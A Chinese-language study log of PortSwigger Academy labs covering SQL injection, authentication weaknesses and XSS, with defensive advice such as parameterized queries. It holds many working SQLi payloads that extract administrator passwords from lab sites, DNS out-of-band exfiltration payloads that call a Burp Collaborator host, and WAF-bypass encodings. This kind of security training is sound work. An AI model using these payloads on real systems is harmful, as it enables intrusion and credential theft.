PortSwigger 网站和 BurpSuite 实验记录，网站地址：https://portswigger.net/  


## SQL Injection

在前端输入框、组件中，可以输入参数的地方，通过关键字、注释符等，导致后端处理 SQL 时执行非正常逻辑，从而泄露数据、被篡改数据等。  

例如 order by 从句、group by 从句、where 从句、-- 注释符、union 联合查询

  

Portswigger Academy 相关示例：

### retrieving hidden data 隐藏数据


web 应用中通过标签获选项筛选产品分类，再通过 url 将参数传递给后端：  

`https://insecure-website.com/products?category=Gifts`

服务端接收到请求后，转化为如下SQL，从 products 表中查询商品，released = 1 表示发布的商品 ：

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

 攻击者可以修改url为：
`https://insecure-website.com/products?category=Gifts'--`

这导致后端查询的SQL变为

```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

由于 -- 注释了后面的 AND 语句导致其不生效，未 release 的产品也会被返回。  


### subverting application logic 破坏逻辑

示例是用户名密码登录框，输入用户名 wiener 密码 bluecheese  

服务端将请求转换为如下SQL：

```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

如果在用户名填入 `administrator'--`，则将SQL逻辑修改为：

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```


### UNION attacks 联合注入

数据库关键字 UNION 可以实现联合查询，例如查询两个表中数据

```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

#### 探测方法：order by、NULL 值等

通过一些手段可以探测到字段数量

* ORDER BY 逐步测试

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```



当超过该表的字段，数据库会返回类似如下错误：

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

网页端则可能有 5xx 类型错误。




* UNION SELECT 不断增加 NULL 占位去探测，这里利用了 NULL 会适配所有类型的数据库字段

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

当超出之后会有类似报错：

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```


#### 探测字段类型

确认了字段数量后，可以使用占位符去探测出一些字段的数据类型，这里将 'a' 逐个替换掉每个字段，来观察返回的值或者错误：

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

通常不兼容的字段会导致数据库返回错误：

```
Conversion failed when converting the varchar value 'a' to data type int.
```

当没有类似报错说明该字段兼容或能适配传入字符、字符串，可以利用其检索一些关键字。  



当检索出字段兼容的属性后，可以替换为我们想要检索的关键字再尝试：




#### 联合查询其它 table

实验中假设已知 users 表有 username、password 字段，尝试通过页面注入 union select 查询该表数据：

https://xxxxxxxxxxxxx.web-security-academy.net/filter?category=Pets%27+union+select+username,password+from+users--




#### 探测数据库信息

可以利用上面方法和数据库的一些常用 table、关键字 来查询数据库的信息，包括版本、表名称、表结构等等。  

一些常用数据库 SQL 拼接、信息查询语句：https://portswigger.net/web-security/sql-injection/cheat-sheet


查询 MySQL 数据库版本信息实验：




#### 通过 content、表结构检索出用户信息实验


检索所有表：
https://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.web-security-academy.net/filter?category=Accessories%27+union+select+table_name,+NULL+FROM+information_schema.tables--


检索出疑似用户表名：users_oyqdgq

检索该表字段：
https://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.web-security-academy.net/filter?category=Accessories%27+union+select+COLUMN_NAME,+DATA_TYPE+FROM+information_schema.columns+where+table_name='users_oyqdgq'--


检索出疑似用户名及密码字段：username_purobl、password_piucuh

检索 administrator 的密码：
https://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.web-security-academy.net/filter?category=Accessories%27+union+select+username_purobl,+password_piucuh+FROM+users_oyqdgq+where+username_purobl='administrator'--

最终检索出 administrator 用户密码：



Oracle 数据库实验，主要是默认库表名称不同：
https://0a2ssssssssssssssssssssssss9.web-security-academy.net/filter?category=Pets%27+union+select+table_name,+NULL+FROM+all_tables--

疑似表：USERS_NLUNDL
有多个疑似表不确定的情况下，可以使用字段名和表名再多查询一些信息
https://0sssssssssssss10099.web-security-academy.net/filter?category=Pets%27+union+select+COLUMN_NAME,+TABLE_NAME+FROM+all_tab_columns--

https://0asssssssssssssssss00510099.web-security-academy.net/filter?category=Pets%27+union+select+COLUMN_NAME,+TABLE_NAME+FROM+all_tab_columns+where+TABLE_NAME+=+'USERS_NLUNDL'--


疑似字段：USERNAME_XBWGGY、PASSWORD_OYNUZF

https://sssssssssssssssss99.web-security-academy.net/filter?category=Pets%27+union+select+USERNAME_XBWGGY,+PASSWORD_OYNUZF+FROM+USERS_NLUNDL+where+USERNAME_XBWGGY+=+'administrator'--


#### 通过单字段检索多个值

数据库有一些字符串拼接的语法可以使用，例如 oracle ：

```
' UNION SELECT username || '~' || password FROM users--
```

通过单字段位查询多个值，返回类似如下内容，username、password 被 ~ 分隔：

```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

常见数据库拼接语法：

| Oracle     | `'foo'||'bar'`                                               |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `'foo'+'bar'`                                                |
| PostgreSQL | `'foo'||'bar'`                                               |
| MySQL      | `'foo' 'bar'` [注意两个字符串之间有空格] 或者 `CONCAT('foo','bar')` |


portswigger 实验：

已知 users 表，字段有 username、password，找出 administrator 用户密码：  

探测出第二个字段可以传递字符，这里使用 )) 作为分隔符：

https://xxxxxxxxxxxxxxxxxx.web-security-academy.net/filter?category=Pets%27+union+select+null,username||'))'||password+from+users+where+username='administrator'--


### Blind SQL Injection 盲注

盲注是指应用包含 SQL Injection 漏洞，但是 HTTP 返回的内容不包含相关 SQL 结果。UNION attacks 在这种情况下很难有效果。  


#### conditional responses

portswigger示例：

假设一个网站使用如下 http header 跟踪用户习惯：

```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

 在用户请求后会被服务端转换为如下数据库查询：

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

如果存在此 ID，web 页面返回一个 “welcome back”之类的提示展示给用户，反正则没有。此信息就可以用来探测，参考如下：

```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

* 第一条注入为真，页面会展示信息
* 第二条注入为假，页面不会展示


将上面逻辑转换为想要探测的信息，组装出对应 SQL，例如已知 Users 表中有 Username、Password 字段，可以通过逐个字符猜测来拼凑出对应密码，注入如下内容

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

如果为 true，说明第一个字符大于 m，继续探测：

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

为 true 说明大于 t，继续探测

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

反复循环直到探测出完整的密码。    

常见 substring 语法，下标从 1 开始，下面的示例返回 ba 字符串：

| Oracle     | `SUBSTR('foobar', 4, 2)`    |
| ---------- | --------------------------- |
| Microsoft  | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL      | `SUBSTRING('foobar', 4, 2)` |


练习：

>
>
>This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
>The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.
>
>The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
>
>To solve the lab, log in as the `administrator` user.


确认表名是否为 users：
' AND (SELECT 'a' FROM users LIMIT 1)='a

确认用户名是否为 administrator：
' AND (SELECT 'a' FROM users WHERE username = 'administrator')='a


确认 password 长度，这里使用 Burp Suite 的 Repeater，最终确认为 20：
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a


之后需要反复试每一位密码，需要用到 Burp Suite 的 Intruder 工具，这里使用 substring 函数：
' AND (SELECT substring(password,1,1) FROM users WHERE username = 'administrator')='a










上面探测出第 1 位的值为 u，继续重复这个过程，直到剩余都找到，这里是第二位字符：

```
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```


可以使用 `Cluster bomb attack` 类型的 Intruder attack，定义 2 个 Payload 位，分别使用不同的值循环测试








根据最终 attack 结果组装出密码：

upc378pc9riff1ahiyya


#### Error-based SQL injection

能够触发错误被利用的分为两种类型：

* Exploiting blind SQL injection by triggering conditional errors
  * 类似于前面的条件返回，传入不同条件，返回不同错误
* Extracting sensitive data via verbose SQL error messages
  * 错误信息包含在查询结果中被输出


先看第一种，假设前端 cookie 中包含了 TrackingId，可以被注入如下 SQL：

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

这里使用了 CASE 关键字，根据不同的条件去匹配结果，第一行 1=2 明显错误的条件，使得 语句变为 `'a'='a'` ，不会触发错误。第二行 1=1 导致计算 1/0 触发了除数为 0 的错误。  

利用类似上面的条件，可以将想要查询或者推测的信息，以 CASE 条件的形式传入进去：

```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```


不同数据库类型的通过 boolean 条件触发错误语句：

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |


```
Blind SQL injection with conditional errors 的实验

' AND (SELECT CASE WHEN (1=1) THEN 'a' ELSE 'a' END FROM dual)='a


' AND (SELECT CASE WHEN ((SELECT username FROM users)='administrator') THEN 'administrator' ELSE 'a' END FROM dual)='a

' AND (SELECT username FROM users)='administrator


判断用户名和密码、表名等
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

判断密码长度，这里 EXISTS 关键字判断查询结果集是否有数据，后续可以用来 Intruder 猜测密码
' AND (SELECT CASE WHEN EXISTS (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20) THEN TO_CHAR(1/0)  ELSE 'a' END FROM dual)='a

猜测密码，将条件修改为 substring(password) 和每一位对比，将 x、y 分别转换为不同的 payload：
' AND (SELECT CASE WHEN EXISTS (SELECT 'a' FROM users WHERE username='administrator' AND SUBSTR(password,x,1)='y') THEN TO_CHAR(1/0)  ELSE 'a' END FROM dual)='a


二分法在 repeater 中猜测，手动修改x为1-20，修改条件为>，将y修改为 m，每次替换剩余值一半（例如 m、s、v、x）：
' AND (SELECT CASE WHEN EXISTS (SELECT 'a' FROM users WHERE username='administrator' AND SUBSTR(password,1,1)>'m') THEN TO_CHAR(1/0)  ELSE 'a' END FROM dual)='a

hjxxe7wwstrpa85i8pt8


```


Extracting sensitive data via verbose SQL error messages  

有时候配置错误导致详细信息被返回给前端，例如在 id 字段注入一个 `'` 单引号，会产生如下错误：

```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

这是由于 id 的值在 WHERE 从句中，单引号被注入该 statement。  

`CAST()` 函数在这种场景中可以被利用来实现一些探测或验证目的，示例如下：  

```
CAST((SELECT example_column FROM example_table) AS int)
```

通常尝试查询的字段是 string ，将其转换为一个不兼容的类型，这里是 int，就导致错误产生：

```
ERROR: invalid input syntax for type integer: "Example data"
```


You can potentially elicit error messages that leak sensitive data returned by your malicious query.

| Microsoft  | `SELECT 'foo' WHERE 1 = (SELECT 'secret') > Conversion failed when converting the varchar value 'secret' to data type int.` |
| ---------- | ------------------------------------------------------------ |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int) > invalid input syntax for integer: "secret"` |
| MySQL      | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret'))) > XPATH syntax error: '\secret'` |


错误信息相关实验：

与之前的类似，cookie 中有一个 TrackingId 用来跟踪用户行为，可以注入SQL，返回错误信息。这里之前的 conditional responses 方式注入被拦截，只能通过制造错误信息的形式判断。  

* 先注入一个单引号`Cookie: TrackingId=JE8zrLZCza8lzvM5';`，获得报错  

```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'JE8zrLZCza8lzvM5''. Expected  char
```

* 再修改为 `Cookie: TrackingId=JE8zrLZCza8lzvM5'--;`，无报错正常返回数据
* 注入 CAST() 验证语法 `Cookie: TrackingId=JE8zrLZCza8lzvM5' AND CAST(1 AS INT)=1--;` 可以正常返回数据
* 修改上面条件 `Cookie: TrackingId=JE8zrLZCza8lzvM5' AND CAST((SELECT username FROM users) AS INT)=1--;` 尝试验证错误，获得报错：

```
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'JE8zrLZCza8lzvM5' AND CAST((SELECT username FROM users) AS I'. Expected  char
```

这里有个坑，卡了很久一直以为是语法错误，实际是传入的 SQL 超过了 cookie 设计的长度限制。

* 将条件修改，可以将 TrackingId= 后面的内容删除以减少长度，``Cookie: TrackingId=' AND CAST((SELECT username FROM users) AS INT)=1--;``，获取到如下报错，说明查询到多条记录：

```
ERROR: more than one row returned by a subquery used as an expression
```

* 再次修改为 `Cookie: TrackingId=' AND CAST((SELECT username FROM users WHERE username='administrator') AS INT)=1--;`，还是超过长度限制
* 继续修改`Cookie: TrackingId=' AND CAST((SELECT username FROM users LIMIT 1) AS INT)=1--;`，这里是实验设计administrator 在第1条，实际中要根据情况调整，获得错误：

```
ERROR: invalid input syntax for type integer: "administrator"
```

* 再次调整获取 password 的内容，`Cookie: TrackingId=' AND CAST((SELECT password FROM users LIMIT 1) AS INT)=1--;`：

```
ERROR: invalid input syntax for type integer: "igi17bo6xv4ab8gly0fw"
```


#### triggering time delays

当服务端正确处理错误，就无法利用上面错误响应及报错信息的技术。此时还可以尝试注入延时来判断或验证一些信息：  

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

* 第一条不会触发延时
* 第二条会触发延时

基于上面类似的逻辑，可以通过服务器响应的时间来验证或获取信息。  

检索用户信息：

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--

```


常见数据库延时 10s 语句：

| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| ---------- | ------------------------------------- |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

常见数据库条件查询延时语句：

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`            |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`               |


实验一，注入SQL让服务器延迟10s返回，修改cookie：

```
Cookie: TrackingId=x'||pg_sleep(10)--; 
```


实验二，通过延迟猜测密码，在 Intruder 中配置 x、y 对应的 payload：

```
Cookie: TrackingId=' || CASE WHEN(SELECT 'a' FROM users WHERE username='administrator' AND SUBSTRING(password,x,1)='y')='a' THEN pg_sleep(10) ELSE pg_sleep(0) END--;
```



attack 类型要选择 Cluster bomb attack，在所有结果中按照 Response Received 列排序，就可以拼出密码：



w9ch9omgsn2lib9hkpf2


#### Out-of-band (OAST) 

有些应用可能采用异步执行 SQL 的架构，对外的服务的线程仅接收请求，转发给其它线程执行 SQL。这种场景下前面的注入技术都不能生效，无法获得反馈。  

此时通常会采用 Out-of-band 的形式触发数据回传，绕过正常数据交互流。例如 DNS、邮件等。  

通常很多主机会放行对外的 DNS 请求，因为该协议属于基础设施协议，有很多应用依赖。  

例如 SQL Server 可以通过如下语句触发一个 DNS 请求：

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

该请求会向 `0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net` 发送请求，实际中可以替换为攻击者的域名以收集数据。


当找到有效的通道，就可以携带想要查询的数据：

示例：

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```


不同数据库触发 DNS 查询语句：

| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`The following technique works on fully patched Oracle installations, but requires elevated privileges:`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`  |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |
| MySQL      | The following techniques work on Windows only:`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')` `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |


携带数据的 DNS 查询：

| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` |
| PostgreSQL | `create OR replace function f() returns void as $$declare c text;declare p text;beginSELECT into p (SELECT YOUR-QUERY-HERE);c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';execute c;END;$$ language plpgsql security definer;SELECT f();` |
| MySQL      | The following technique works on Windows only: `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |


这两个相关实验需要 pro 会员，暂时跳过。  


#### Preventing blind SQL Injection

和预防普通 SQL 注入一样，要小心处理参数化查询的语句，确保用户输入的内容不能拼接、构造出超预期的 SQL 查询。  

示例：

```
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);

```

上面拼接的 SQL  语句可以修改为如下参数化的方式：

```
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```


### Second-order SQL injection

一级注入是指发生在应用程序通过 HTTP request 接收处理用户请求的时候。  

二级注入是指应用程序接收用户的请求并存储数据，并不立刻处理，而是在满足一定条件后再触发执行，又叫 stored SQL injection。  

通常是开发者意识到 SQL 注入的风险后，在 placeholder 之类的输入框中加入检测及预防手段后再存入数据库。  


### SQL injection in different contexts

在不同场景下可以通过不同方法构造 SQL 注入。例如有些网站使用 xml、json 之类的形式收集数据，并且放置了 WAF 之类的防御设施，可以通过一些特殊编码规则来绕过防火墙检测来注入语句。    

示例，在一段 xml 中注入查询，将其中的 S 字符转移为 16 进制以绕过 WAF 检测：

```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```

BurpSuite 中有 Decoder 工具，或者使用 [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) 插件可以用来做一些不同编码的字符转义。


XML 注入实验：

页面中有一段通过 xml 传入产品id、库存id，点击按钮会向服务端发送 POST 请求，返回对应商品剩余库存数量：



尝试注入语句，会被 WAF 检测并拦截：



可以将部分关键字或字符转义以躲避检测：





再替换为想要查询的语句，并可以利用拼接语句查询 `UNION SELECT username || '~' || password FROM users`：




## Authentication vulnerabilities 认证漏洞

### 认证类型

主要有3类：

* something you know ：password、answer to a security question，密码、安全问题，这属于知识因子
* something you have ：mobile phone、security token，手机、安全令牌，这属于资产因子
* something you are ：biometrics、pattern of behavior，生物特征、行为模式，这属于内在因子


### Authentication 和 Authorization  的区别

认证和鉴权：

* Authentication 是指认证，例如账号密码、人脸识别、验证码等。  

* Authorization 是鉴权，认证通过后鉴定用户拥有的权限，是否能够访问某些页面或子系统。


### 认证漏洞产生的原因

主要有2点：

* 认证机制不能防止暴力破解类攻击
* 逻辑漏洞、实现代码质量低导致攻击者能够绕开认证，又称为`Broken Authentication 认证失效` 


### 基于密码认证的脆弱点


* 暴力破解用户名：根据业务不同有所差异，有的会使用 `xxxxxx@company.com` 一类邮箱后缀的账号，使得猜测容易，或者有一些共性的账号：常用的有 root、admin、administrator、support、demo 等
* 暴力破解密码：网站可能强制要求用户设置高复杂度的密码，这样理论上更难破解，但还是有一些规律，例如通常用户更倾向于容易记忆的密码，`mypassword` 不能用就换成 `Mypassword1!` 、`Myp4$$w0rd`之类的
* 用户名枚举：适用于那些验证用户名及密码时，返回了一些信息，可以被利用来确定用户名，例如
  * 状态码
  * 错误消息
  * 响应时间


一些限制暴力破解措施的漏洞：

* IP 封禁：有些应用会检测IP有正常登录后，重置此 IP 的失败计数，会被攻击者利用在暴力破解中插入正常账号登录以绕开此机制
* 账户锁定：超过指定次数后，账号被限制登录一段时间，攻击者可以利用此点来枚举用户名


### 基于多因子认证的脆弱点

多因子主要基于前面所说三种类型，大多数网站或者应用对于生物特征(something you are)难以验证，因此很多时候都采用双因子(something you know、something you have) 2FA 认证，要求同时提供两种认证，常见的有密码+验证码（邮箱、短信、认证APP验证码）。但和其他认证类似，安全程度取决于认证的实现。  


有一些常见的漏洞：

#### 绕过校验

密码认证通过后，将用户引导至验证码提交表单页面，但用户状态已经变为登录，此时通过手动输入 url 就可以访问相关页面。


#### 认证逻辑漏洞

示例

* 用户发送如下请求，提交表单中的用户名密码

  ```
  POST /login-steps/first HTTP/1.1
  Host: vulnerable-website.com
  ...
  username=carlos&password=qwerty
  ```

  

* 服务器分配一个 cookie 关联到这个账户，返回给用户的验证码页面中包含该 cookie

  ```
  HTTP/1.1 200 OK
  Set-Cookie: account=carlos
  
  GET /login-steps/second HTTP/1.1
  Cookie: account=carlos
  ```

  

* 用户再次提交验证码，cookie 信息被传回服务器，登录到 cookie 关联的账户

  ```
  POST /login-steps/second HTTP/1.1
  Host: vulnerable-website.com
  Cookie: account=carlos
  ...
  verification-code=123456
  ```

* 这里示例的用户是 carlos，cookie 中包含用户信息，但如果第二次没有再校验 cookie 是否与第一次下发的 cookie 一致，黑客可以通过修改 cookie +暴力破解验证码进入其它任意用户的账户，而不需要验证码

  ```
  POST /login-steps/second HTTP/1.1
  Host: vulnerable-website.com
  Cookie: account=victim-user
  ...
  verification-code=123456
  ```

  

#### 基于 token 的暴力破解

示例：

网站增加了验证码校验次数，连续几次之后重置验证码并登出用户，以防止暴力破解，但黑客可以通过 burpsuite 之类的工具自动化第一步的登录流程，反复尝试以登录。


在用户第一次登录时 GET 获取登录页面、 POST 提交用户密码、GET 获取验证码页面、POST 提交验证码，在 brupsuite 中将前3步骤作为宏：



在第3步中从页面获取到 token ，并在第 4 步中携带反复进行验证码暴力破解









上面实验是 portswigger 故意设计的缺陷，应用没有对账户锁定，OTP 验证也没有暴力破解的防护。


一个 2FA 认证应该做到：

* 验证码一次性
* 有效期短
* 账户在多次错误尝试后应该被锁定或限流


### 其它认证机制的脆弱点


#### 保持登录

有一种很常见的功能是保持登录，页面常见的形式是标识着“记住我”、“保持登录”之类的勾选框。通常是生成一个持久化的 cookie ，该 cookie 作为 token 或其一部分传给服务器以通过登录认证环节，这个 cookie 最佳实践应当是有随机性难以猜测出来的。  

但是有些网站实现却将其与一部分用户信息关联拼接，例如用户名+时间戳，甚至有用密码作为其中一部分。因为黑客是很容易通过注册自己的账号来推演相关 cookie 生成过程。  

有的网站对这些值进行了加密，但如果加密方式比较简单，例如 base64 这种双向加密形式则无法提供任何防护。甚至使用单向加密方式，如果未加 salt ，黑客知道了加密算法，可以通过加密词表对 cookie 进行暴力破解。   


有些网站虽然黑客无法创建账号，但可以利用类似 XSS 之类的技术，获取用户的 cookie ，如果恰好网站应用使用开源的框架，该 cookie 的构造方式可能已经公开。  


#### 重置密码

实际应用中用户可能会忘记密码，因此通常会提供一种重置密码的功能，实现有多种方式，安全措施及风险也不相同。  

* 通过邮件发送密码
  * 这种方式生成的密码应当具有很短的时效性，或者用户能够立即更改密码。
* 使用 URL 重置密码
  * 这种方案相对前一种安全，但如果生成的 URL 具有一定规律导致容易猜测，则黑客可以通过此种方式重置任意用户的密码，例如：`http://vulnerable-website.com/reset-password?user=victim-user`
  * 更可靠的实现是发送复杂、难以猜测的 URL ，不包含用户信息，且有较短的时限，用户重置后立即失效，例如 `http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8`
  * 此方式还存在密码重置链接投毒的风险
    * 通过修改 http 头(例如 X-Forwarded-Host:  )、dangling markup 之类漏洞


#### 修改密码

通常修改密码功能的流程和登录类似，因此也存在类似风险。如果允许未登录情况下访问该功能页面，也会存在暴力破解密码的漏洞。  


### OAuth 认证的脆弱点

有一个专题，暂时先跳过
https://portswigger.net/web-security/oauth


### 增强认证安全

虽然无法面面俱到，仍有一些原则可以帮助我们提高安全性：

* 妥善保管用户凭证
* 不要依赖用户保障安全性
* 预防用户名枚举
* 强有力的防护暴力破解措施
* 反复核对你的验证逻辑
* 不要忘记增补的功能模块
* 实现适当的多因子认证


## XSS(Cross-site script) 跨站脚本攻击


### 概念

XSS 是一种 web 安全漏洞，攻击者篡改用户与存在漏洞的应用之间的交互，执行用户能够进行的操作和访问用户所有数据。主要运作原理是操纵存在漏洞的网站应用向用户返回恶意 JavaScript 代码，当代码在用户浏览器中执行，攻击者就掌握了其与服务器之间的交互。  


XSS 主要有3种类型：

* Reflected XSS
* Stored XSS
* DOM-based XSS


### 反射型 XSS

最直接的类型形式。当应用接收到 HTTP 请求，没有经过安全处理，直接将数据包含到 response 中时，就会导致漏洞。

示例：

```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
```

黑客可以构造出如下内容：

```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```

当受害者点击上面构造的链接时，就会触发 js 脚本内容。


### 存储型 XSS

又叫持久化 XSS 或者二级 XSS。当应用程序接收到用户提交的 HTTP数据并存储，作为后续流程中的数据进行返回，就属于这种类型。常见的有 BLOG 评论发表、用户昵称展示、订单展示信息。  

示例：

有一个消息广播应用可以提交内容，输入框大致如下：

```
<p>Hello, this is my message!</p>
```

黑客可以提交如下内容：

```
<p><script>/* Bad stuff here... */</script></p>
```

这些内容就会被发送到读取该消息的用户浏览器被执行。


### 基于 DOM 的 XSS

应用通过一些不安全的方式处理用户提交的数据，并将数据写回到 DOM 中。

示例：

应用使用一段 JS 读取用户提交的值，将该值用于生成一段 HTML  

```
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

黑客同样可以构造恶意脚本

```
You searched for: 
```


数据从 Source 流向 Sink，即 URL 流向 eval/innerHTML ，导致恶意代码执行。  

手工测试方法：

* 测试 innerHTML 类 Sink
  * URL 中塞入字符串
  * 打开F12调试面板 Elements 中 Ctrl + F 搜索字符串
  * 观察出现在哪个上下文中，标签或者属性
  * Chrome、FireFox 会自动编码 URL 里的特殊字符，导致 Payload 失效
* 测试 JS 执行类 Sink
  * 打开 F12调试面板，源码 Source 中 Ctrl + Shift + F 全局搜索 location 等关键词
  * 在读取 Source 处打断点
  * 按 F10 单步调试，追踪数据被传递给哪些变量，然后一路追踪直到传递给 eval、setTimeout 等
  * 鼠标悬停查看值，确认 Payload 是否完好抵达 Sink


常见的一些 Sinks ：

* document.write() 
* document.writeln() 
* document.domain 
* element.innerHTML 
* element.outerHTML 
* element.insertAdjacentHTML 
* element.onevent


框架 jQuery 常见 sinks ：

```javascript
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```


### 常见用途

* 冒充用户
* 执行用户有权限执行的动作
* 读取数据
* 捕获用户相关凭证
* 篡改网站数据
* 植入木马到网站


### exploit

三种流行的利用 XSS 的事件类型：

* cookie 窃取，但实战中会受到一些限制：

  * 受害者可能根本没登录

  * 很多应用会用 `HttpOnly` 标记，让 JS 读不到 Cookie

  * Session 可能被绑定了额外因素，比如用户的 IP 地址

  * 没来得及利用，Session 可能就已经超时失效了

